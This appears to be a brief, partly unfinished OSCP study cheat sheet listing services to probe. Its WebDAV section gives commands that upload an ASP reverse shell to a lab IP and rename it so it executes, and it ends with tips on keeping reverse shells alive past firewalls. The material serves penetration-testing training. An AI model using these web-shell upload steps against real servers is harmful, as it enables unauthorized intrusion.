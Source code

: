 # OSCP Tips

## Services | Things to try

SSH (22)
* Fingerprint server/OS, SSH key

HTTP (80|8080)
* Curl for HTTP header

Telnet (23)
* Stuff

SMTP (25)
* Stuff

NETBIOS (139)
* Stuff

SMB (445)
* [MS08-067] NetAPI module in Windows SMB (

SAMBA

MSRPC (135)
* Stuff

## Web Stuff

ColdFusion
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

WEBDAV
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

## Reverse Shell Tips

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).
